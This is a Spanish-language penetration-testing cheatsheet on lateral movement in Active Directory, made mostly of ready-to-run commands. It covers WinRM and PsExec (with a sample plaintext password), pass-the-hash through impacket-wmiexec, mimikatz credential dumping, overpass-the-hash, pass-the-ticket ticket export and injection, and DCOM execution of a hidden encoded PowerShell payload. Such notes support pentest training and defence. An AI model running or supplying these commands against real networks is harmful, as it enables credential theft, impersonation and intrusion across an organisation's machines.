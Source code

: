 # Cheatsheet: AD-LateralMovement

## Objetivo
Plasmar las técnicas necesarias para ejecutar movimiento lateral en Active Directory
## Herramientas
1. mimikatz
2. PsExec.exe
## Procedimiento y comandos
#### Técnica 1: WIM - WinRM
- Requisitos:
1. Usuario
2. Password
3. IP
4. Payload base64
- Comandos:
> Ejecutar el script Invoke-WinRM.ps1
```powershell
Invoke-WinRM -TargetIP <IP> -Username <usuario> -Password <clave> -PayloadBase64 <payload_base64>
```
#### Técnica 2: PsExec.exe
- Requisitos:
1. user
2. password
3. hostname
- Comando:
1. `.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd`
#### Técnica 3: Pass The Hash
- Requisitos:
1. Autenticacion NTLM
2. hash NTLM
3. conexión SMB a través del firewall - puerto 445.
4. recurso compartido de administración **ADMIN$** esté disponible. 
5. credenciales válidas con permisos administrativos locales.
- Comando:
1. **impacket-wmiexec**
```bash
impacket-wmiexec -hashes :<Local_Administrator_hash> Administrator@<IP_To_move>
```
#### Técnica 4: Overpass the Hash: (convierte un hash NTLM en un ticket kerberos para utilizar kerberos en vez de NTLM como medio de autenticación)
- Requisitos:
1. hash NTLM
- Comandos:
1. `mimikatz # privilege::debug`
2. `sekurlsa::logonpasswords`
3. `mimikatz # sekurlsa::pth /user:user_to_move /domain:corp.com /ntlm:<hash_ntlm_from_user> /run:powershell`
4. `PS C:\Windows\system32> klist`
5. `PS C:\Windows\system32> net use \\hostname_to_move`
6. `PS C:\tools\SysinternalsSuite> .\PsExec.exe \\hostname_to_move cmd`
#### Técnica 5: Pass the ticket
- Requisitos:
1. hash NTLM
2. todos los TGT/TGS

- Comandos:
1. `mimikatz # sekurlsa::tickets /export`
2. `PS C:\Tools> dir *.kirbi`
3. `mimikatz # kerberos::ptt [0;165bb8]-0-0-40810000-dave@cifs-web04.kirbi`
4. `PS C:\Tools> klist`
5. `PS C:\Tools> ls \\web04\backup`

#### Técnica 6: DCOM
- Comandos:
1. 
```powershell
PS C:\Tools> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<IP_TO_MOVE>"))
```
2. 
```powershell
PS C:\Tools> $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e Base64Payload","7")
```
